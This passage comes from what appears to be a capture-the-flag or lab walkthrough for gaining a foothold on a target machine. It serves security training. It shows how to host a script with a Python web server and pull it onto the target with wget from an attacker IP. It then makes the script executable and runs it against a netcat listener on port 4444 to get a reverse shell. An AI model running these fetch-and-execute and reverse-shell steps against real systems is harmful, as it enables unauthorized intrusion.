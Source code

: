   

```

python3 -m http.server 8000

```

![captionless image](https://miro.medium.com/v2/resize:fit:1274/format:webp/1*5L40gdPvzW-DMd04vodFPg.png)

  

19. Let’s run the wget command in the Request.

  

**_Command — Download a file: wget_**

  

```

wget http://10.10.14.73:8000/bash.sh -O /tmp/bash.sh

```

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*5CtQcsFRYrw0LJM50QtZ6g.png)

  

20. The above command will download our bash.sh to the web server in the /tmp directory.

  

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*ZJs8y8yz1OvnrUpE0NVO6Q.png)

  

21. Let’s make the file executable using chmod.

  

**_Command — Executable file: chmod_**

  

```

chmod 777 /tmp/bash.sh

```

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*rafbQGD337PuKvfw3KHqVg.png)

  

22. Now Start the netcat listener on port 4444 and run the /tmp/bash.sh file.

  

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*QjXdP5L1aiDrRWtJJ8rBeQ.png)![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*zvp49AsfPXa04Qey9YQeMA.png)

  

# Lateral Movement
